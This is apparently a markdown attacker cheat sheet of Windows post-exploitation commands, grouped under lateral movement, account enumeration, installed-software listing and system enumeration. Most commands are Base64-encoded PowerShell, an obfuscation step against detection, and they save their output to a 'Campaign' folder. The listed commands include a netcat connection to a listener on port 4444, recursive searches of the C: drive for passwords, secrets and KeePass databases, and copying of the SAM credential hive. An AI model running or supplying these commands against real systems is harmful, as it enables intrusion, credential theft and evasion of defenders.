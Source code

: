 ## Lateral Movement:

- `nc 192.168.50.220 4444`

## Local Account Enumeration:

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'whoami'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Campaign\Current-User.txt"`

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'whoami /groups'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Campaign\Local-User-Groups.txt"`

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-LocalUser'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Campaign\Local-Users.txt"`

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-LocalGroupMember Administrators | Where-Object { $_.PrincipalSource -eq "Local" } | Select-Object Name'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Campaign\Local-Admins.txt"`

## Get Installed Applications:

### 32 Bit:

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname,DisplayVersion'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Campaign\32BitPrograms.txt"`

### 64 Bit:

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname,DisplayVersion'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Campaign\64BitPrograms.txt"`

## Local System Enumeration

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-ChildItem -Path C:\ -Recurse -File -ErrorAction SilentlyContinue | Select-String -Pattern "password|secret" -SimpleMatch'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Campaign\Find-Secrets.txt"`

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-Process'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Campaign\Get-Process.txt"`

- `$command = "Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-ChildItem -Path C:\ -Include SAM -File -Recurse -ErrorAction SilentlyContinue"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-ChildItem -Path C:\ -Include _.txt,_.ini -File -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern 'YourSearchString'"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Copy-Item -Path "$env:SystemRoot\System32\Config\RegBack\SAM" -Destination 'C:\Path\To\NewLocation\SAM'"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "systeminfo"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "ipconfig /all"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "route print"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "netstat -ano"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

`Get-ChildItem -Path C:\ -Recurse -File -ErrorAction SilentlyContinue | Select-String -Pattern 'password|secret' -SimpleMatch`
